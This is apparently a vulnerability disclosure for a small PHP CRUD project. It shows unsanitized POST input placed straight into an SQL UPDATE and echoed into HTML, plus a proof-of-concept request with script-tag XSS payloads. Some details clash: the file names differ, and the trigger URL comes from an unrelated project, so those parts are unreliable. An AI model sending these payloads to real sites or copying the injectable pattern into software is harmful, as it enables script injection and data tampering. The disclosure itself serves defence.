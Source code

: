 # simple-crud-functionality-in-php has Cross Site Scripting vulnerability in index.php

## supplier 
https://code-projects.org/simple-crud-functionality-in-php-with-source-code/
## Vulnerability file
index.php

## describe
there are unrestricted cross site scripting attacks and injection attacks in the simple-crud-functionality-in-php in index.php. The controllable parameters are as follows: descr parameter and title parameter. This function will execute the user parameter without restriction into the echo statement. Malicious attackers can exploit this vulnerability to obtain sensitive information from clients

**Code analysis**    

Line 21-36 in edit.php
```
if(isset($_POST['sub'])){

    if(isset($_POST['srno'])){
        $srno = $_POST['srno'];
        $newtitle = $_POST['newtitle'];
        $newdescr = $_POST['newdescr'];

        $sqledit = "UPDATE `crud`.`notes` SET `Sr.No` = $srno, `title` = '$newtitle', `descr` = '$newdescr', `Time` = NOW() WHERE `notes`.`Sr.No` = $srno;";

        mysqli_query($con, $sqledit);

        header("Location: ./index.php");

mysqli_close($con);
    }
}
```
Updating user's input directly into database without any restrictions.
Line 63-73 in index.php
```
        echo " <tr>
        <td>".$row['Sr.No']."</td>
        <td>".$row['']."</td>
        <td>".$row['descr']."</td>
        <td>".$row['Time']."</td>
        <td>
         <a href='edit.php'><button name='edit' class='sub'>Edit</button></a>
             <a href='delete.php'><button type='submit' name='delete' class='sub'>Delete</button></a>
           
        </td>
    </tr>";
```
Querying data from the database use echo function to output, with the parameter descr and title not filtered, resulting in the execution of XSS statements.

## POC

```
POST /edit.php HTTP/1.1
Host: localhost:8081
Content-Length: 109
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://localhost:8081
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8081/edit.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

srno=1&newtitle=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&newdescr=%3Cscript%3Ealert%282%29%3C%2Fscript%3E&sub=

```

Visit this URL to trigger the cross-site scripting vulnerability.

```
http://farmacia/adicionar-produto.php
```

**Result**

![image-20241128083927477](https://raw.githubusercontent.com/LamentXU123/cve/refs/heads/main/assest/xss3.png)
